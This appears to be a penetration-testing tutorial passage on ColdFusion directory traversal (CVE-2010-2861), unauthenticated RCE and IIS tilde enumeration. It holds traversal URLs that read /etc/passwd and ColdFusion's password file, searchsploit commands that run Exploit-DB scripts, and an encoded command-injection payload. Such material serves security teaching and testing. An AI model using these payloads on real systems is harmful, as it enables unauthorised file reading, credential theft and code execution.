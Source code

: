 CVE-2010-2861 is the Adobe ColdFusion - Directory Traversal exploit discovered by searchsploit. It is a vulnerability in ColdFusion that allows attackers to conduct path traversal attacks.
- CFIDE/administrator/settings/mappings.cfm
- logging/settings.cfm
- datasources/index.cfm
- j2eepackaging/editarchive.cfm
- CFIDE/administrator/enter.cfm

These ColdFusion files are vulnerable to a directory traversal attack in Adobe ColdFusion 9.0.1 and earlier versions. Remote attackers can exploit this vulnerability to read arbitrary files by manipulating the locale parameter in these specific ColdFusion files.
````
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
````
````
$ searchsploit -p 14641
$ cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
$ python2 14641.py <IP> 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
````
**Unauthenticated RCE**

In the context of ColdFusion web applications, an Unauthenticated RCE attack occurs when an attacker can execute arbitrary code on the server without requiring any authentication. This can happen when a web application allows the execution of arbitrary code through a feature or function that does not require authentication, such as a debugging console or a file upload functionality. 
````
# Decoded: http://www.example.com/index.cfm?; echo "This server has been compromised!" > C:\compromise.txt

http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt
````
````
$ searchsploit -p 50057
$ cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
Change IP and Port inside the exploit
$ python3 50057.py 
````

## IIS Tilde Enumeration

IIS tilde directory enumeration is a technique utilised to uncover hidden files, directories, and short file names (aka the 8.3 format) on some versions of Microsoft Internet Information Services (IIS) web servers. This method takes advantage of a specific vulnerability in IIS, resulting from how it manages short file names within its directories.

The tilde (~) character, followed by a sequence number, signifies a short file name in a URL. Hence, if someone determines a file or folder's short file name, they can exploit the tilde character and the short file name in the URL to access sensitive data or hidden resources.

Assume the server contains a hidden directory named SecretDocuments. When a request is sent to http://example.com/~s, the server replies with a 200 OK status code, revealing a directory with a short name beginning with "s". The enumeration process continues by appending more characters:
````
http://example.com/~se
http://example.com/~sf
http://example.com/~sg
````
Continuing this procedure, the short name secret~1 is eventually discovered when the server returns a 200 OK status code for the request http://example.com/~secret.
